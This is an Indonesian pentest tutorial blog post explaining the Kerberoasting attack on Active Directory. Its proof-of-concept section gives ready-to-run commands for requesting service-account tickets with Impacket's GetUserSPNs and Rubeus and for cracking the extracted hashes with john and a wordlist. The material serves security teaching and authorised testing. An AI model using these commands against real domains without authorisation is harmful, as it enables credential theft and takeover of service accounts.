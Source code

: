 ```yaml
---
title: Eksploitasi Kerberoasting pada Active Directory
date: 2024-01-06 07:00:00 +07:00
modified: 2024-01-06 07:00:00 +07:00
tags:
  - "Windows Infrastructure Pentest"
  - "Active Directory Pentest"
description: Dalam Kerberoasting, serangan akan ditujukan pada pengguna layanan (Service Account) di dalam lingkungan Active Directory. Hal ini dilakukan ketika penyerang melakukan percobaan untuk mengekstraksi Ticket Granting Service pada protokol Kerberos.
image: /assets/img/as-rep-roasting-vs-kerberoasting.png
---
```

Kerberoasting adalah salah satu serangan pada protokol Kerberos, dalam serangan ini target utamanya yaitu user dari akun layanan (Service Account). Namun serangan ini memerlukan setidaknya satu Domain User yang sudah ter-compromise. Ketika salah satu Domain User itu Compromised dan digunakan oleh penyerang, maka penyerang memiliki peluang untuk mengambil alih Service Account dari protokol Kerberos.

![Kerberos Preauthentication](../../assets/img/as-rep-roasting-vs-kerberoasting.png)

Mungkin akan saya jelaskan ulang pada artikel ini, pada dasarnya protokol Kerberos di lingkungan Active Directory, terdapat dua layanan utama:
1. Authentication Service (AS) 
2. Ticket-Granting Service (TGS)

Secara garis besar, alur Kerberoasting mirip seperti [AS-REP Roasting](/windows-infrastructure-pentest/2024-01-05-as-rep-roasting-kerberos-active-directory/) namun pada dasarnya agak berbeda, karena AS-REP Roasting memanfaatkan layanan Authentication Service (AS) pada Kerberos, sedangkan Kerberoasting memanfaatkan layanan Ticket Granting Service (TGS). Ok! Agar tidak terlalu bertele-tele, maka saya akan rangkum alur terkait Kerberoasting Attack.

Melalui Domain User yang sudah ter-compromise, penyerang akan menargetkan akun layanan (Service Account):
- Penyerang akan mengambil Ticket ke layanan Ticket Granting Service (TGS) di dalam Kerberos menggunakan Service Principal Name (SPN) yang digunakan oleh Service Account tersebut
- Di dalam Ticket pada dasarnya menyimpan kredensial milik Service Account, namun disembunyikan dalam format Hash
- Setelah Ticket diperoleh, penyerang akan memecahkan Hash tersebut secara **Offline** menggunakan Tools Password Cracking untuk mendapatkan Plain-text Password dari  Service Account yang sebelumnya dijadikan sasaran
- Setelah Password didapatkan, maka penyerang dapat login menggunakan Service Account tersebut

Oh, iya! Pada dasarnya, Service Account dan Domain User itu sama-sama digunakan untuk otentikasi di lingkungan jaringan Windows. Perbedaannya hanya terletak pada tujuan dan penggunaannya saja. Service Account umumnya digunakan oleh layanan seperti MSSQL, HTTP (IIS), dan lain-lain, sedangkan Domain User digunakan oleh pengguna manusia.

<h1 class="header-group">Proof of Concept</h1>
# 1. Request Ticket to TGS
Untuk melakukan permintaan Ticket pada Service TGS di Kerberos, di sini saya akan menggunakan Tool `Impacket` (lagi).

**Installation**
Linux (Debian Based):
```
sudo apt install pipx -y
sudo python3 -m pipx install impacket
```

Kali Linux:
```
sudo apt install impacket-scripts -y
```

Atau kalian juga bisa menyesuaikan instalasinya dengan cara mengunjungi Repository <https://github.com/fortra/impacket>.

Jika sudah terinstal, kita bisa menggunakan modul `impacket-GetUserSPNs.py` dari `Impacket` untuk mengambil Ticket dari layanan TGS-nya.

**Command**
```
impacket-GetUserSPNs <domain>/<username>:<password> -request -dc-ip <ip domain controller>
```

![impacket-GetUserSPNs for Kerberoasting](../../assets/img/20240227-kerberoasting-using-impacket-getuserspns.png)

## What If
Jika mengalami Error **Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)** maka kita hanya perlu untuk sinkronisasi waktu dan tanggal pada Host yang kita gunakan dengan Server Active Directory.

**Get AD Timestamp via LDAP**
```
ldapsearch -LLL -x -H ldap://<ip domain controller> -b '' -s base '(objectclass=*)' | grep currentTime
```

**Synchronize the Timezone**
```
sudo timedatectl set-ntp false
sudo timedatectl set-time "<YYYY-MM-DD HH:MM:SS>"
```

## Alternative Tool
Selain menggunakan `Impacket`, kalian juga bisa menggunakan tool `Rubeus.exe` sebagai alternatif bilamana environment yang kalian gunakan untuk Pentest itu berbasis Windows.

Download `Rubeus.exe`:
- <https://github.com/GhostPack/Rubeus>

**Commands**
```
.\Rubeus kerberoast
```

Alternative command #1:
```
.\Rubeus.exe kerberoast /ou:OU=Service_Accounts,DC=Security,DC=local
```

Alternative command #2:
```
.\Rubeus.exe kerberoast /user:File_SVC
```

# 2. Crack the Ticket (Roasting!)

Jika Ticket yang diberikan oleh TGS berhasil diperoleh, kita lanjutkan ke tahap Roasting. Istilah Roasting di sini mengacu pada aktivitas pemecahan Hash di dalam Ticket-nya menggunakan Password Cracking Tool seperti `john` atau `hashcat`. Oh iya untuk file Password List-nya itu saya menggunakan `rockyou.txt` (sama seperti biasa).

**Command**
```
john --format=krb5tgs --wordlist=<password file> <tgs file>
```

![Kerberoasting - Crack TGS using john](../../assets/img/20240227-kerberoasting-crack-tgs-using-john.png)

![Kerberoasting - Crack TGS using john 2](../../assets/img/20240227-kerberoasting-crack-tgs-using-john-2.png)